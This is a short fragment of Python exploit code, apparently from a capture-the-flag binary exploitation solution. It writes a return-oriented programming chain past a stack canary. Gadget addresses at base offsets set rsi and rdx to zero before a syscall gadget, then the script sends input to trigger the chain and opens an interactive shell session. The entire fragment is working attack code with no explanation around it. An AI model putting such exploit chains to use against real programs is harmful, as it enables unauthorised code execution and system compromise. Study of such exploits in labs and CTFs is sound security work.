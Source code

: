 ```python

setqword(canary_addr+16+8*4,base_addr+0x1781e)#set rsi
setqword(canary_addr+16+8*5,0)#rsi

setqword(canary_addr+16+8*6,base_addr+0x9bdf)#set rdx
setqword(canary_addr+16+8*7,0)#rdx


syscall_addr=base_addr+0x9643
# syscall_addr=base_addr+0xa330

setqword(canary_addr+16+8*8,syscall_addr)#syscall

s.sendline(b"exit")

s.sendline(b"pwd")

#may failed when you meet 0x0a

s.interactive()
```